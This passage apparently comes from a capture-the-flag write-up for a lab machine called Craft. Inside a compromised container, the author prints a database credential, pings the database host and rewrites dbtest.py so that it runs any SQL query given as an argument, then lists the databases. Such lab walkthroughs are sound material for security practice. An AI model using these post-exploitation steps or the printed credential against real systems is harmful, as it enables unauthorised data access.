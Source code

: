     finally:
        connection.close()

I have got the values from the database connection string by printing them but they weren't needed

    craft:qLGockJ6G2J75O

Database was on another docker

    /opt/app # ping -c 1 db
    PING db (172.20.0.4): 56 data bytes
    64 bytes from 172.20.0.4: seq=0 ttl=64 time=0.135 ms

    --- db ping statistics ---
    1 packets transmitted, 1 packets received, 0% packet loss
    round-trip min/avg/max = 0.135/0.135/0.135 ms

With no TTY its almost impossible to open Vi and edit a text so I will edit dbtest.py on my kali to take argument as SQL query.

I could had made a proxy and connected to that host with my kali but that is not necessary and with little coding can be skipped.

I've wasted some time thanks to **fetchone()** that only fetches the first row the database sends.

I changed it to **fetchall()**.

    #!/usr/bin/env python
    import pymysql
    from craft_api import settings
    import sys

    # test connection to mysql database

    connection = pymysql.connect(host=settings.MYSQL_DATABASE_HOST,
                                 user=settings.MYSQL_DATABASE_USER,
                                 password=settings.MYSQL_DATABASE_PASSWORD,
                                 db=settings.MYSQL_DATABASE_DB,
                                 cursorclass=pymysql.cursors.DictCursor)


    try:
        with connection.cursor() as cursor:
            sql = sys.argv[1] # Argument to take SQL Query
            cursor.execute(sql)
            result = cursor.fetchall() # Instead of fetchone()
            print(result)

    finally:
        connection.close()

Those the databases i found

    /opt/app # ./dbtest.py 'show databases;'
    [{'Database': 'craft'}, {'Database': 'information_schema'}]

Tables in craft database
